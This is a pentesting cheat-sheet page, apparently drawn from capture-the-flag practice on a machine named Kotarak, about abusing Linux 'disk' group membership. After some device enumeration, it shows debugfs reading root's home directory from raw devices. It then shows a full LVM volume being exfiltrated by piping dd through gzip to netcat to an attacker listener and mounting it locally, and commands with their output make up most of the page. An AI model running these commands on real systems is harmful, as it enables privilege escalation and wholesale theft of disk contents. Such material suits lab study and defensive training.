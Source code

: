 ```yaml
---
title: "disk group"
date: 2024-7-2
tags: ["Privilege Escalation", "Data Exfiltration", "File System Mounting", "Disk", "Backup", "Privilege Read", "Container", "LVM", "Debugfs"]
---
```


### Basic

```console
# Show devices
lsblk
```

```console {class="sample-code"}
$ lsblk
NAME                   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda                      8:0    0   12G  0 disk 
├─sda1                   8:1    0  120M  0 part /boot
├─sda2                   8:2    0    1K  0 part 
└─sda5                   8:5    0 11.9G  0 part 
  ├─Kotarak--vg-root   252:0    0    7G  0 lvm  /
  └─Kotarak--vg-swap_1 252:1    0    1G  0 lvm  [SWAP]
sr0                     11:0    1 1024M  0 rom
```

```console
# Device attributes
blkid
```

```console {class="sample-code"}
$ blkid
/dev/sda1: UUID="67e178a9-1b2a-407e-8d3f-7b1772bab2be" TYPE="ext2" PARTUUID="1b9f3540-01"
/dev/sda5: UUID="LnUYcF-uZX0-c91G-XfUl-6BqJ-gk8W-QtnncD" TYPE="LVM2_member" PARTUUID="1b9f3540-05"
/dev/mapper/Kotarak--vg-root: UUID="efb44a28-8edc-4d40-aca3-81e57d58d759" TYPE="ext4"
/dev/mapper/Kotarak--vg-swap_1: UUID="162b2913-7dcf-4ba7-bddc-238a22f16e52" TYPE="swap"
```

```console
# Show device mapping
ls -l /dev/mapper/
```

```console {class="sample-code"}
$ ls -l /dev/mapper/
total 0
crw------- 1 root root 10, 236 Sep 22 23:22 control
lrwxrwxrwx 1 root root       7 Sep 22 23:22 Kotarak--vg-root -> ../dm-0
lrwxrwxrwx 1 root root       7 Sep 22 23:22 Kotarak--vg-swap_1 -> ../dm-1
```

```console
# Show swap on blk
swapon -s
```

```console {class="sample-code"}
$ swapon -s
Filename                                Type            Size    Used    Priority
/dev/dm-1                               partition       1048572 0       -1
```

```console
# Filesystem info
cat /etc/fstab
```

```console {class="sample-code"}
$ cat /etc/fstab
# /etc/fstab: static file system information.
#
# Use 'blkid' to print the universally unique identifier for a
# device; this may be used with UUID= as a more robust way to name devices
# that works even if disks are added and removed. See fstab(5).
#
# <file system> <mount point>   <type>  <options>       <dump>  <pass>
/dev/mapper/Kotarak--vg-root /               ext4    errors=remount-ro 0       1
# /boot was on /dev/sda1 during installation
UUID=67e178a9-1b2a-407e-8d3f-7b1772bab2be /boot           ext2    defaults        0       2
/dev/mapper/Kotarak--vg-swap_1 none            swap    sw              0       0
/dev/fd0        /media/floppy0  auto    rw,user,noauto,exec,utf8 0       0
```

---

### Abuse #1: Read host's filesystem from container (root)

#### 1. Open target device

```console
debugfs /dev/sda1
```

```console {class="sample-code"}
$ debugfs /dev/sda1
debugfs 1.44.1 (24-Mar-2018)
```

```console
# Read
ls -l /root
```

```console {class="sample-code"}
   2456   40750 (2)      0      0    4096 23-Sep-2024 06:49 .
      2   40755 (2)      0      0    4096 24-Nov-2023 10:10 ..
   2457  100600 (1)      0      0    3121 27-Nov-2017 22:45 .bashrc
   2458  100600 (1)      0      0     148 17-Aug-2015 18:30 .profile
  50878   40700 (2)      0      0    4096 13-Sep-2022 18:51 .cache
  50115  100400 (1)      0      0      33 23-Sep-2024 06:49 root.txt
 131982   40755 (2)      0      0    4096 24-Nov-2023 09:41 .nano
  56604   40755 (2)      0      0    4096 13-Sep-2022 18:51 .ssh
  30962  120777 (7)      0      0       9 13-Sep-2022 18:36 .bash_history

(END)
```

---

### Abuse #2: Read container's filesystem from host

#### 1. Show LVM mappings

```console
ls -l /dev/mapper/
```

```console {class="sample-code"}
$ ls -l /dev/mapper/
total 0
crw------- 1 root root 10, 236 Sep 22 23:22 control
lrwxrwxrwx 1 root root       7 Sep 22 23:22 Kotarak--vg-root -> ../dm-0
lrwxrwxrwx 1 root root       7 Sep 22 23:22 Kotarak--vg-swap_1 -> ../dm-1
```

#### 2. Exfil container's filesystem

```console
# In our local machine
nc -lvnp <LOCAL_PORT> > <DEVICE_MAPPING>.gz
```

```console {class="sample-code"}
$ nc -lvnp 4444 > dm-0.gz
listening on [any] 4444 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.55] 35450
```

```console
# Target container rootfs, e.g. dm-0
dd if=/dev/<DEVICE_MAPPING> | gzip -1 - | nc <LOCAL_IP> <LOCAL_PORT>
```

```console {class="sample-code"}
$ dd if=/dev/dm-0 | gzip -1 - | nc 10.10.14.31 4444
14680064+0 records in
14680064+0 records out
7516192768 bytes (7.5 GB, 7.0 GiB) copied, 306.697 s, 24.5 MB/s
```

#### 3. Mount locally

```console
# Extract dm-0
gunzip <DEVICE_MAPPING>.gz
```

```console {class="sample-code"}
$ gunzip dm-0.gz
```

```console
# Mount the filesystem
sudo mount <DEVICE_MAPPING> /mnt/ 
```

```console {class="sample-code"}
$ sudo mount dm-0 /mnt/
```

```console
# Read
ls /mnt/root/
```

```console {class="sample-code"}
$ ls /mnt/root/
app.log  flag.txt
```

<small>*Note: can take a long time to transfer*</small>
